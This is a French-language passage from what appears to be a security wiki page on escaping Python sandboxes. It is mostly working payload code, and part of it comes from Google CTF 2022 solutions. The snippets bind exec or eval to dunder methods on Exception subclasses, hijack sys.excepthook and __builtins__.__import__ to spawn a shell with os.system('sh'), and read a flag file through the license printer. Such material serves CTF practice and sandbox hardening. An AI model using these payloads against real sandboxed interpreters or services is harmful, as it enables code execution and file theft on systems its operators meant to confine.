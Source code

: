 Lorsqu'une **exception est déclenchée**, un objet de la classe **Exception** est **créé** sans que vous ayez besoin d'appeler directement le constructeur (une astuce de [**@\_nag0mez**](https://mobile.twitter.com/\_nag0mez)):
```python
class RCE(Exception):
    def __init__(self):
        self += 'import os; os.system("sh")'
    __iadd__ = exec #Triggered when object is created
raise RCE #Generate RCE object


# RCE with __add__ overloading and try/except + raise generated object
class Klecko(Exception):
  __add__ = exec

try:
  raise Klecko
except Klecko as k:
  k + 'import os; os.system("sh")' #RCE abusing __add__
  
## You can also use the tricks from the previous section to get RCE with this object
```
### Plus de RCE
```python
# From https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/
# If sys is imported, you can sys.excepthook and trigger it by triggering an error
class X:
    def __init__(self, a, b, c):
        self += "os.system('sh')"
    __iadd__ = exec
sys.excepthook = X
1/0 #Trigger it

# From https://github.com/google/google-ctf/blob/master/2022/sandbox-treebox/healthcheck/solution.py
# The interpreter will try to import an apt-specific module to potentially 
# report an error in ubuntu-provided modules.
# Therefore the __import__ functions are overwritten with our RCE
class X():
  def __init__(self, a, b, c, d, e):
    self += "print(open('flag').read())"
  __iadd__ = eval
__builtins__.__import__ = X
{}[1337]
```
### Lire un fichier avec l'aide de builtins et la licence
```python
__builtins__.__dict__["license"]._Printer__filenames=["flag"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
with (a as b):
    pass
```
![](<../../../.gitbook/assets/image (9) (1) (2).png>)
